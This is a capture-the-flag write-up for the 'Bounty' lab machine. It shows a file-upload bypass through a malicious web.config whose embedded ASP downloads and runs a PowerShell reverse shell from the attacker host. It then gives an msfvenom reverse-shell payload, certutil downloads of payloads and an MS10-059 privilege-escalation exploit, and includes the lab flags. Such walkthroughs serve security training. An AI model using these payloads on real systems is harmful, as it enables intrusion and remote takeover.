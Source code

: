 # Bounty

IP: `10.10.10.93`

## Enumerattion

Only port 80 is open according to nmap. It is running on mirosoft IIS 7.5.

There's also an interesting file at the path `http://10.10.10.93/transfer.aspx` where we can upload files.

Trying to upload a random `.txt` file didn't work however, so it seems like the options are rather limited.

Trying out a few file formats, we find that uploading files with an extension of `.jpg` is allowed.

And with gobuster, we see that the path `http://10.10.10.93/uploadedfiles/` is where our uploaded files will be at.

Our first image path is `http://10.10.10.93/uploadedfiles/482732.jpg` and it returns our image.

interestingly enough, after a few minutes the file is garbled up and unviewable. This might be something that the garbage collection for the web app is cleaning up files.

Additionally, we can also upload `.config` files, so we can upload something like `web.config` and make it run `asp` code for us.


So we use the following web.config code:

```asp
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
Set objShell = CreateObject("WScript.Shell")
Set cmd = objShell.Exec("cmd /c powershell -c IEX (New-Object Net.WebClient).downloadstring('http://10.10.14.27/mini-reverse.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

while serving a powerscript reverse shell file on 80 and a listerner on 443 and we get back a reverse shell as `bounty\merlin`

user.txt: `e29ad89891462e0b09741e3082f44a2f`

## Foothold

We upload a shell to `C:\Users\merlin\Desktop` and execute that to get another shell this time with more output

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.27 LPORT=5555 -f exe > shell.exe
```

```sh
certutil.exe -urlcache -split -f "http://10.10.14.27/shell.exe" C:\Users\merlin\Desktop\shell.exe
```

## Priv esc

We see that ms10-059 is available.

```sh
certutil.exe -urlcache -split -f "http://10.10.14.27/MS10-059.exe" C:\Users\merlin\Desktop\MS10-059.exe
```

```sh
C:\Users\merlin\Desktop>MS10-059.exe 10.10.14.27 6666
```

and listening on port `6666`, we get back a root shell.

root.txt: `c837f7b699feef5475a0c079f9d4f5ea`
